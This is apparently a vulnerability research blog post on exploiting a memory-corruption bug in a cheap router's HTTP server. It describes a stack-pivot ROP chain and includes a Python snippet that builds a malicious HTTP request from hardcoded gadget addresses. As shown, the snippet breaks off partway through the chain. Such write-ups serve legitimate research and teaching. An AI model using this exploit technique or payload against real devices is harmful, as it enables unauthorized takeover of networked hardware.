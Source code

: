 ```yaml
---
published: true
title: "🪂 [3] Bigger and Better ROP-Chains + Shellcode"
toc: true
toc_sticky: true
categories:
  - VR
tags:
  - Exploitation
  - ROP
  - Memory Corruption
  - Shellcode
tagline: "Now that we've got a pretty small and limited ROP-chain, we should be able to utilise various gadgets to enable larger and less limited execution - hopefully execution of shellcode."
excerpt: "So we've got a pretty small and limited ROP-chain, lets try and get shellcode running."
header:
  teaser: /assets/images/analysing_a_dirt_cheap_router/mcu.jpg
  overlay_image: /assets/images/analysing_a_dirt_cheap_router/mcu.jpg
  overlay_filter: 0.4
  #caption: "Photo credit: [**Unsplash**](https://unsplash.com)"
---
```


We've done the hard bit now - we've found a bug, and exploited it to get execution. Now we just need to burrow deeper for better access/control.

# Larger/Less Limited ROP-Chain

The most obvious target here (at least it was to me after staring at the **http_request_proc** for ages) is the 1024 byte buffer that is populated with the entire HTTP request - it has the following benefits:
- *Larger*: 1k bytes of space - remember that our 256 byte ROP-chain from the previous request will not be clobbered as only the HTTP method enters this buffer, so we'll only overwrite the first few bytes (which we did anyway when we triggered it for the pc control PoC)
- *No bad characters*: The **recv** will just keep receiving whatever is sent in, so there are no bad characters that will impact the contents of this buffer

## Writing the Stack Pivot Chain

Remember that this is still using the limited 256 byte chain. This chain does the following:
- Pop registers off of the stack
- Do the standard fixup we saw in the previous blog (client counts and **index.html** callback)
- Save the stack pointer to known global address (*0xc09ae8d4*)
- Load an amount to add to the saved stack pointer (*0xc8*)
- Add the saved stack pointer and loaded value to get the stack pivot address
- Use the same gadgets as the stack pointer fixup to get this new stack pointer into **r11**
- Run the first gadget of the larger chain which moves **r11 + 0x1c** into sp and pops off registers

```
-python
# Construct the raw HTTP GET request
request = method + b" /index.html HTTP/1.1\r\n"
request += b"Accept-Aa0Aa"
request += p32(0xc02b4edc) # pc

# 0xc02b4edc | ldmia sp!,{r4,r5,r6,r7,r11,pc} <- pop stuff off of the stack so we actually get a decent bit of control
request += p32(0xc05af011) # r4
request += p32(0xc006b11c) # r5 <- change this to insert more gadgets
request += p32(0xc04a28e0) # r6
request += p32(0xc09ae8d4 - 0xdc) # r7 - where we write the stack pointer we destroy
request += p32(0xdeadbeef) # r11
```